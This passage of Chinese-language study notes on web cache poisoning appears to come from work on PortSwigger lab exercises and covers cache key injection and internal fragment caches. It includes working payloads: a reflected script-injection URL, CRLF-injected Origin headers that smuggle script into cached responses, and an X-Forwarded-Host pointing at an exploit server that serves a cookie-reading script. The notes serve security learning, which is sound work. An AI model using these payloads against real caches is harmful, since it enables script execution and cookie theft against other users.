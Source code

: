 ```http
lab：
GET /random. Notice that the path you requested is reflected in the error message
https://acf01f501e2fb6b780dd11e300ba00bc.web-security-academy.net/qwe</p><script>alert(1)</script>
```

### Cache key injection

有时，您会在keyed header中发现客户端漏洞。这也是一个典型的“unexploitable”问题，有时可以使用缓存投毒加以利用。

如果缓存**未实现组件之间分隔符的正确转义**，则可能会利用此行为创建具有**相同缓存cache key的两个不同请求**。

```
lab:?
/login?lang=en?utm_content=anything
observe  /js/localize.js
Use the Pragma: x-get-cache-key header to identify that the server is vulnerable to cache key injection, meaning the header injection can be triggered via a crafted URL.

GET /js/localize.js?lang=en?utm_content=z&cors=1&x=1 HTTP/1.1
Origin: x%0d%0aContent-Length:%208%0d%0a%0d%0aalert(1)$$$$

GET /login?lang=en?utm_content=x%26cors=1%26x=1$$Origin=x%250d%250aContent-Length:%208%250d%250a%250d%250aalert(1)$$%23 HTTP/1.1
```

## Poisoning internal caches

一些网站除了使用独特的外部组件外，还直接在应用程序中实现缓存行为

这些缓存不是缓存整个响应，而是将**响应分解为可重用的片段并分别缓存**。

由于这些缓存片段旨在跨多个不同的响应重用，**因此cache key的概念实际上并不适用**

包含给定片段的每个响应都将重用相同的缓存片段，即使响应的其余部分完全不同

### How to identify internal caches

集成的应用程序级缓存带来的一个挑战是，它们可能**很难识别和调查，因为通常没有面向用户的反馈**

```
lab：
Observe that any changes to the query string are always reflected in the response. This indicates that the external cache includes this in the cache key

Use Param Miner to add a dynamic cache-buster query parameter. This will allow you to bypass the external cache.

1. X-Forwarded-Host: your-exploit-server-id.web-security-academy.net
/js/geolocate.js   alert(document.cookie)
```

### Testing internal caches safely

建议使用**cache buster** （缓存清除器）来防止被投毒响应被提供给其他用户
